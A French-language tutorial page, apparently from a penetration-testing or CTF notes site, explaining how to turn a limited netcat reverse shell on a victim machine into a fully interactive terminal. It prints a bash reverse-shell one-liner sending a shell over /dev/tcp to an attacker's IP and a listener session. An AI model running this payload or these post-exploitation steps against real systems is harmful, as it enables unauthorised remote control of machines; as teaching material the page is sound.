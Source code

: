 ```yaml
---
title: Obtenir un shell propre
sidebar_label: Obtenir un shell propre
pagination_label: Obtenir un shell propre
description: Après avoir injecté votre payload, vous obtenez un reverse shell depuis la commande netcat. Comment améliorer ce shell ?
keywords:
  - docs
  - Reverse shell
  - Netcat
  - Payload
---
```


## Pourquoi améliorer son reverse shell ?

Tout d'abord, si vous n'êtes pas encore à l'aise avec l'injection de reverse shell, je vous suggère de consulter https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

Lorsque vous injectez votre payload (exemple: `bash -c 'bash -i >& /dev/tcp/[votre IP]/[port d'ecoute de netcat] 0>&1'`), vous obtenez un reverse shell depuis la commande netcat.

Cependant, ce shell est très limité, vous aurez donc rapidement envie de l'améliorer.

Par exemple il est impossible d'utiliser les flèches pour naviguer dans l'historique des commandes, ou encore d'interrrompre une commande avec `Ctrl+C`.

```bash
user@local$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.104] from (UNKNOWN) [10.10.11.211] 36734
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ ^C
user@local$
```

## Comment améliorer son reverse shell ?

### Attacher le shell à un terminal

Pour améliorer votre shell, vous pouvez utiliser la commande `script` pour attacher votre shell à un terminal.

Depuis le shell de la victime, exécutez la commande suivante :

```bash
bash-5.1$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
bash-5.1$ 
```

Vous obtenez ainsi un second shell, attaché cette fois au TTY.

### Mettre à niveau le shell

Il faut maintenant indiquer à notre terminal local d'enregistrer les entrées clavier et de les envoyer au shell distant.

Mettez d'abord le shell distant en arrirère-plan avec `Ctrl+Z`.

```bash
bash-5.1$ ^Z
[1]+  Stopped                 nc -lvnp 4444
```

Utilisez la commande `stty raw -echo` depuis le shell local: cela permet de désactiver l'affichage des caractères saisis et de les envoyer directement au shell distant.

Remettez le shell distant au premier plan avec `fg`.

```bash
user@local$ stty raw -echo ; fg
```

Pour remettre le curseur au bon endroit, utilisez la commande `reset`.

```bash
user@local$ stty raw -echo ; fg
nc -lnvp 4444
             reset
```

Si le type de terminal n'est pas reconnu, indiquez `screen`.

```bash
user@local$ stty raw -echo ; fg
nc -lnvp 4444
            reset
reset: unknown terminal type unknown
Terminal type? screen
```

Vous avez maintenant accès à un shell complètement interactif, dans lequel vous pouvez utiliser les flèches pour naviguer dans l'historique des commandes, ou encore interrompre une commande avec `Ctrl+C`.

```bash
bash-5.1$ ^C
bash-5.1$ ^C
bash-5.1$
```

### Remettre le terminal local à ses valeurs par défaut

Pour quitter le shell distant, utilisez la commande `exit`.
Vous quitterz dans un premier temps le shell attaché au terminal TTY, puis tapez `exit` une seconde fois pour quitter le premier reverse shell.

```bash
bash-5.1$ exit
exit
Script done.
            bash-5.1$ exit
                          exit
user@local$
```

Depuis le shell local, **vous ne voyez plus apparaître les caractères saisis** (puisque vous avez désactivé l'affichage local avec `stty raw -echo`), utilisez la commande `stty sane` pour remettre le terminal à ses valeurs par défaut.

```bash
user@local$ stty sane # Vous tapez la commande sans la voir
user@local$ echo "salut" # Le terminal est remis à ses valeurs par défaut
salut
user@local$
```
